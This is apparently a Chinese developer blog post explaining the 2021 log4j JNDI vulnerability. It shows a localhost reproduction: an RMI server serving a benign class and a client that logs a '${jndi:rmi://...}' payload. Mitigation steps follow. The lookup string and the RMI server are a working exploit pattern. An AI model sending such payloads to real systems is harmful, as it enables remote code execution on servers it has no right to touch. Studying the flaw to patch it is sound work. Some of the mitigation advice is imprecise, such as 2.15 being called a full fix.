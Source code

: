 # 背景

都2021年了，居然还有这种简单粗暴直接替换占位符的安全问题，真的难以想象。比之前fastjson的漏洞还要大、还要容易。


# 问题原因

## 占位符替换机制

log4j提供了占位符的功能，如下：

```java
logger.info("os: ${java:os}");
// 会输出操作系统的信息
```
会把 ${java:os} 替换成了 System.getProperties("os") 
## jndi占位符替换

离谱的是 log4j 还提供了关于 jndi 的占位符。如：

```java
logger.info("${jndi:rmi://127.0.0.1:1099/hello}")
```

# 影响范围

1、log4j 2.x.x版本（包括直接、间接依赖；1.x版本不受影响）

2、FastJson < 1.2.69 版本

# 漏洞复现

更多源码参考：[java-demo logsafe](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/log/logsafe)

## jndi服务

```java
package com.huangbo.log.logsafe;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.swing.*;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        Reference reference = new Reference("com.huangbo.log.logsafe.Hello", "com.huangbo.log.logsafe.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", refObjWrapper);
    }
}
class Hello {
    static {
        JOptionPane.showConfirmDialog(null, "嘿嘿嘿！！");
    }
}
```
## 用户程序

```java
package com.huangbo.log.logsafe;
import lombok.extern.slf4j.Slf4j;
@Slf4j
public class LogSafeDemo {
    public static void main(String[] args) {
//        String name = "${java:os}";
        String name = "${jndi:rmi://localhost:1099/hello}";
        login(name);
    }
    public static void login(String name){
        log.info(name);
    }
}
```
## 触发用户程序

注意：务必关闭服务端和客户端的全局代理模式！

启动用户程序发现报错：

```xml
2021-12-18 17:51:05,537 main WARN Error looking up JNDI resource [rmi://localhost:1099/hello]. 
javax.naming.ConfigurationException: The object factory is untrusted. 
Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
```
因为本机用的是JDK8，添加了一个新的属性默认为false，需要在用户侧手动开启。添加如下参数，IDEA中配置"VM Options"
```shell
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```
重新启动，发现成功入侵！
# 解决方法

## 更新log4j版本

将 log4j 到最新版本 2.15 及以上 ，亲测有效

## 添加jvm参数

亲测不行！

添加jvm参数，禁止占位符替换

```json
-Dlog4j2.FORMATMsgNoLookups=true 
```
或创建 "log4j2.component.properties" 文件，文件中加入"log4j2.formatMsgNoLookups=true" 
## 升级到java8

Java 8 中添加了一个新的属性 com.sun.jndi.rmi.object.trustURLCodebase，这是一个 boolean 类型。默认值是 false，在使用 jndi 时会抛出一个报错阻止加载远程服务器提供的代码。

## 删除jar包class文件

删除 log4j-core-*.jar 中 org/apache/logging/log4j/core/lookup/JndiLookup.class 这个文件，彻底进行不了 jndi

>可行性较小


# Reference

[Log4j 爆“核弹级”漏洞](https://mp.weixin.qq.com/s/Yq9k1eBquz3mM1sCinneiA)

[Log4j 惊天远控漏洞: 原理？如何解决？](https://www.bilibili.com/read/cv14380391)

